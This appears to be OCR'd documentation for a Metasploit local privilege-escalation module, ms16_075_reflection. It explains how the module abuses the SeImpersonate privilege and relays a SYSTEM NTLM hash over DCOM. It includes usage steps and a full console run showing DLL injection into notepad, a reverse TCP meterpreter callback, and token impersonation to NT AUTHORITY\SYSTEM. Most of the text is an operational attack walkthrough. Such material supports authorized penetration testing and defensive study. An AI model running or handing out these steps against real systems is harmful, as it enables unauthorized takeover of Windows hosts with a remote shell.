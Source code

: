 ## Intro
  This module will abuse the SeImperonsate privilege commonly found in 
services due to the requirement to impersonate a client upon 
authentication. As such it is possible to impersonate the SYSTEM account 
and relay its NTLM hash to RPC via DCOM. The DLL will perform a MiTM 
attack at which intercepts the hash and relay responses from RPC to be 
able to establish a handle to a new SYSTEM token. Some caveats : Set 
your target option to match the architecture of your Meterpreter 
session, else it will inject the wrong architecture DLL into the process 
of a seperate architecture. Additionally, after you have established a 
session, you must use incognito to imperonsate the SYSTEM Token.
## Usage
  You'll first need to obtain a session on the target system.
  Next, once the module is loaded, one simply needs to set the 
```payload``` and ```session``` options, in addition to architecture.
  
  Your user at which you are trying to exploit must have `SeImpersonate` 
privileges.
  
  The module has a hardcoded timeout of 20 seconds, as the attack may 
not work immediately and take a few seconds to start. Also, check to 
make sure port 6666 is inherently not in use else the exploit will not 
run properly
  
## Scenarios
```
  Name Current Setting Required Description
   ---- --------------- -------- -----------
   SESSION 48 yes The session to run this module on. Payload options 
(windows/x64/meterpreter/reverse_tcp):
   Name Current Setting Required Description
   ---- --------------- -------- -----------
   EXITFUNC thread yes Exit technique (Accepted: '', seh, thread, 
process, none)
   LHOST ens3 yes The listen address (an interface may be specified)
   LPORT 3312 yes The listen port Exploit target:
   Id Name
   -- ----
   1 Windows x64 msf exploit(windows/local/ms16_075_reflection) > run 
[*] Started reverse TCP handler on -snip-:3312 [*] Launching notepad to 
host the exploit... [+] Process 3564 launched. [*] Reflectively 
injecting the exploit DLL into 3564... [*] Injecting exploit into 
3564... [*] Exploit injected. Injecting payload into 3564... [*] Payload 
injected. Executing exploit... [+] Exploit finished, wait for (hopefully 
privileged) payload execution to complete. [*] Sending stage (206403 
bytes) to -snip- [*] Meterpreter session 49 opened (-snip-:3312 -> 
-snip-:55306) at 2018-08-03 01:54:18 -0400 meterpreter > load incognito 
Loading extension incognito...Success. meterpreter > impersonate_token 
'NT AUTHORITY\SYSTEM' [-] Warning: Not currently running as SYSTEM, not 
all tokens will be available
             Call rev2self if primary process token is SYSTEM [-] No 
delegation token available [+] Successfully impersonated user NT 
AUTHORITY\SYSTEM meterpreter > getsystem -t 1 ...got system via 
technique 1 (Named Pipe Impersonation (In Memory/Admin)). meterpreter > 
```
